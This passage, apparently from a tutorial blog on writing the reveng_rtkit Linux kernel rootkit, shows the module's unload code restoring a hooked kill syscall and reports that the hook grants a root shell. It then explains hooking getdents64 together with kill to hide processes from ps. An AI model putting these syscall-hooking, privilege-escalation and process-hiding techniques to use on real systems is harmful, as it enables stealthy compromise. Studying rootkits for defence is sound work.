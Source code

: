 ```c
	printk(KERN_INFO "\t\t\t\t\t\t back to normal");

	// Editing the sycall table back to normal, i.e. with original syscall: "kill" syscalls.
	__sys_call_table[__NR_kill] = (unsigned long) orig_kill;

	protect_memory();

	printk(KERN_INFO "[-] reveng_rtkit: Unloaded \n");
	printk(KERN_INFO "=================================================\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("reveng007");
MODULE_DESCRIPTION("Modifying Stage of reveng_rtkit");
MODULE_VERSION("1.0");
```
Now, lets see it in action:\
![](https://github.com/reveng007/reveng_rtkit/blob/main/img/Blog13.png?raw=true)

We can see 3 things:
1. In ***fish shell***, this mechanism of getting root shell is not working, I don't really know why... (<ins>If any viewers seeing this, have any solution to this problem, please don't hesitate to do a PR to my repo but before that please visit, [idea](https://github.com/reveng007/reveng_rtkit#note-1)</ins>).
2. In ***bash shell***, it is working as expected.
3. In ***sh shell***, it is working as expected too.

B) **getdents64** syscall: [elixir.bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/syscalls.h#L487)

I actually wanted to hide ongoing processes and I got that idea for hiding processes from [source1: R3x/linux-rootkits](https://github.com/R3x/linux-rootkits#features-descriptions), but I was unable to understand that portion of code which was linked. I then searched through other [resource links](https://github.com/reveng007/reveng_rtkit#resources-that-helped-me) that I had. I found out this: [source2](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.5.1.). I will be implementing this mechanism via **kill syscall** (or sys_kill) as I did earlier.
          
But here, we are actually intercepting two syscalls simultaneously,
1. ***kill syscall***: To hide pid of any process, cmd: _`kill -32 <pid>`_.
2. ***getdents64 syscall***: Please go through this [link](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.5.1.) (it is the same previous link) and check the last 2 paragraphs of it. It will say that, `ps` command only just does an 'ls' on "`/proc/`" directory.

Now then, what is the working machanism of `ls`?\
Visit: [gist-amitsaha](https://gist.github.com/amitsaha/8169242#how-does-ls-do-what-it-does). It says that, after the execution of `ls`, it in turn invokes the `getdents()` system call, which is responsible to read the directory contents.\
Let's check it.
```diff
$ strace ls 1>/dev/null 2>/tmp/ls.strace; cat /tmp/ls.strace | cut -d'(' -f1 | sort -u

access
arch_prctl
brk
close
execve
+++ exited with 0 +++
exit_group
+ getdents64    -----> We can see that it performs getdents64 syscall
ioctl
mmap
```